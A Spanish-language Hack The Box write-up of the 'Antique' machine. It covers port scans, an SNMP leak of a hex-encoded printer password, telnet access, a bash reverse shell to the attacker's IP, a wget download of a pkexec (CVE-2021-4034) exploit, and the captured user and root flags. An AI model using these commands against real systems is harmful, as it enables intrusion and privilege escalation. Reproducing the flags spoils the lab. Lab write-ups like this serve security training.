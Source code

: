 ```yaml
---
layout: single
title: Antique - Hack The Box
excerpt: "Antique is an easy Linux machine featuring a network printer disclosing credentials through SNMP string which allows logging into telnet service. Foothold can be obtained by exploiting a feature in printer. CUPS administration service running locally. This service can be exploited further to gain root access on the server. " 
date: 2024-04-03
classes: wide
header:
  teaser: /assets/images/htb-antique/antique.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Pkexec
  - UDP
  - Telnet
  - SNMP
---
```


![](/assets/images/htb-antique/antique.png)

Antique is an easy Linux machine featuring a network printer disclosing credentials through SNMP string which allows logging into telnet service. Foothold can be obtained by exploiting a feature in printer. CUPS administration service running locally. This service can be exploited further to gain root access on the server. 

## Portscan

```
 Nmap 7.94SVN scan initiated Tue Apr  2 17:03:02 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -oG allports 10.10.11.107
 Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.107 ()	Status: Up
Host: 10.10.11.107 ()	Ports: 23/open/tcp//telnet///	Ignored State: closed (65534)
 Nmap done at Tue Apr  2 17:03:14 2024 -- 1 IP address (1 host up) scanned in 12.38 seconds
```
Y con esto analizamos los puertos abiertos:
```
nmap -sCV -p23 -Pn 10.10.11.107 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-02 17:07 CEST
Nmap scan report for 10.10.11.107
Host is up (0.041s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data.

```
Vamos a analizar tambien los puertos UDP:
```
sudo nmap -sU --top-ports 100 --open -T5 -v -n 10.10.11.107                              1 ⨯
[sudo] contraseña para kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-02 17:21 CEST
Initiating Ping Scan at 17:21
Scanning 10.10.11.107 [4 ports]
Completed Ping Scan at 17:21, 0.06s elapsed (1 total hosts)
Initiating UDP Scan at 17:21
Scanning 10.10.11.107 [100 ports]
Warning: 10.10.11.107 giving up on port because retransmission cap hit (2).
Discovered open port 161/udp on 10.10.11.107
Completed UDP Scan at 17:21, 9.96s elapsed (100 total ports)
Nmap scan report for 10.10.11.107
Host is up (0.11s latency).
Not shown: 86 open|filtered udp ports (no-response), 13 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.15 seconds
           Raw packets sent: 369 (22.540KB) | Rcvd: 17 (1.327KB)
```

## Intrusión SNMP


Vemos que el puerto abierto tiene un servicio snmp, asi que vamos a investigarlo:
```
snmpwalk -c public -v2c 10.10.11.107 1
iso.3.6.1.2.1 = STRING: "HTB Printer"
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
iso.3.6.1.4.1.11.2.3.9.1.2.1.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```
Vemos que esta en hexadecimal y vamos a pasarlo de un modo que sea legible: 
```
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xargs | xxd -ps -r
P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i	IY�aA�"1&1A5
```
## Entramos con telnet en el puerto 443

Lo ponemos:
```
telnet 10.10.11.107 23
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect


Password: P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i
```
Vemos que se puede ejecutar comandos con exec asi que vamos a pasarnos una bash:
```
exec bash -c "bash -i >& /dev/tcp/10.10.16.14/443 0>& 1"
```

Ya podemos sacar la flag de usuario:
```
lp@antique:~$ cat user.txt
cat user.txt
15223601059755aab2544f81cdc59707
```
## Escalada de privilegios

Vamos a ver si encontramos la debilidad pkexec, que se puede explotar
```
lp@antique:~$ which pkexec
/usr/bin/pkexec
```

Desde nuestra terminal, vamos a clonarnos este repositorio https://github.com/berdav/CVE-2021-4034 que nos va a escalar el privilegio mediante pkexec, la comprimimos en .tar.gz (Ya que zip no esta en la maquina víctima).Desde el equipo de la víctima, obtenemos el comprimido de nuestro equipo(wget http://10.10.16.6/comprimido.tar.gz). Lo descomprimimos, hacemos make, y lo ejecutamos:
```
lp@antique:/tmp/CVE-2021-4034$ ./cve-2021-4034
# whoami
root
# bash
root@antique:/tmp/CVE-2021-4034# cd/root
bash: cd/root: No such file or directory
root@antique:/tmp/CVE-2021-4034# cd /root
root@antique:/root# ls
config.py  root.txt  snap  snmp-server.py
root@antique:/root# cat root.txt
4202c54a001f14e922c8d8ae918b8ac0
```
